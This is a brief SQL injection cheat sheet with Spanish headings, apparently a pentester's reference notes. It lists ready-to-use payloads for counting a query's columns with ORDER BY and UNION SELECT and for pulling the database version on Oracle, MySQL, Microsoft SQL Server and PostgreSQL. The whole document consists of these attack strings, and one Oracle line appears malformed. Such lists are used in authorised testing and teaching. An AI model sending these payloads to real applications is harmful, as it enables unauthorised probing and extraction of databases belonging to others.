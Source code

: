 ## Enumerando Columnas
```sql
' ORDER BY 1-- -
' ORDER BY 100-- -
' ORDER BY 1,2,3,4,5-- -
' ORDER BY 1,2,3,4,5#

' UNION SELECT NULL,NULL,NULL-- -
' UNION SELECT "Test",2,NULL#
' UNION SELECT @@version,NULL,NULL#
```
### ORACLE
```sql
' UNION SELECT 'NULL','NULL' FROM+dual-- -
```
## Versiones
### ORACLE
```sql
' UNION SELECT BANNER, NULL FROM v$version--
' SELECT version FROM v$instance--
```
### MySQL and Microsoft
```sql
' UNION SELECT @@version, NULL-- -
```
### PostgreSQL
```sql
' UNION SELECT version(), NULL-- -
```
